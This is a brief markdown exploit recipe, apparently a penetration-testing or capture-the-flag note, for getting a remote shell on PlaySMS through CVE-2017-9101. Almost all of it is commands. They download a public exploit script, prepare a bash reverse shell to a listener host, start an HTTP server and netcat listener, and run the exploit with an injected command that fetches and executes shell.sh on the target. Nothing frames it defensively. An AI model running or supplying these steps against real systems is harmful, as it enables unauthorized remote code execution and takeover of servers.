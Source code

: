 ### download
```
wget https://raw.githubusercontent.com/jasperla/CVE-2017-9101/master/playsmshell.py -O playsmshell.py
```

### prepare shell.sh and insert:
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

### start listener and webserver
```
sudo python3 -m http.server 80
nc -lnvp <lport>
```

### exploit
```
python3 playsmshell.py --username <user> --password <password> --url http://<rhost>/playsms --command "wget <lhost>/shell.sh -O /tmp/shell.sh && bash /tmp/shell.sh"
```

### References
https://www.exploit-db.com/exploits/42044  

